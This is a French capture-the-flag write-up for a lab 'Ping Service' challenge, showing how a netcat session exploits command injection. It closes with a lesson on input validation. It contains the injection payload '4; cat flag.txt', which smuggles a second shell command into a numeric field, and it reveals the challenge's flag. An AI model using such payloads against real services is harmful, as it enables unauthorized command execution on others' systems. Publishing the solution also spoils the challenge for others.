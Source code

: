 # 🛠️ Write-up : Ping Service 🛠️

Bienvenue dans le défi **Ping Service** ! 🌐 Voici le scénario :

> "Je me suis créé un petit service en ligne pour pinguer ma machine et voir si tout fonctionne, c'est pas définitif, j'espère que personne ne pourra contourner le service..."

🕵️‍♂️ **Objectif** : Trouver le flag en accédant au service situé sur **10.29.135.5:2222**.

## 📋 Étapes pour résoudre le défi

### 1️⃣ Connexion au service
Nous utilisons la commande **netcat** pour interagir avec le service :
```bash
$ nc 10.29.135.5 2222
```
🎉 Une fois connecté, le service nous demande d'entrer un **nombre**. Par exemple :
```bash
[PING SERVICE] Veuillez entrer le nombre de paquets :
> 4
```
Cela envoie 4 pings à `127.0.0.1` et retourne les résultats.

### 2️⃣ Observation du comportement
🔍 J'ai essayé plusieurs commandes non valides pour voir comment le service réagit :
- `ls` ➡️ **"Veuillez entrer un nombre."**
- `pwd` ➡️ **"Veuillez entrer un nombre."**
- Toute commande non entière est rejetée.

### 3️⃣ Injection d'une commande 🛡️
Le service accepte des **entiers**, mais j'ai exploité cette validation en injectant une commande malveillante. 😈

💡 **Payload magique :**
```
> 4; cat flag.txt
```
✅ Ce payload envoie 4 pings **puis exécute `cat flag.txt`** pour lire le contenu du fichier contenant le flag.

### 4️⃣ Le flag ✨
Le service retourne le flag 🎯 :
```
Bravo, voici le flag de ce challenge:PasSécuCa!
```

## 📦 Commande complète :
```bash
$ nc 10.29.135.5 2222
[PING SERVICE] Veuillez entrer le nombre de paquets :
> 4; cat flag.txt
```
🚀 **Et voilà, mission accomplie !**

## 🥳 Conclusion
Ce challenge montre l'importance de valider correctement les entrées utilisateur pour éviter les **injections de commandes**. Bravo à vous pour avoir réussi ! 💪

🎉 **Flag** : `PasSécuCa!`
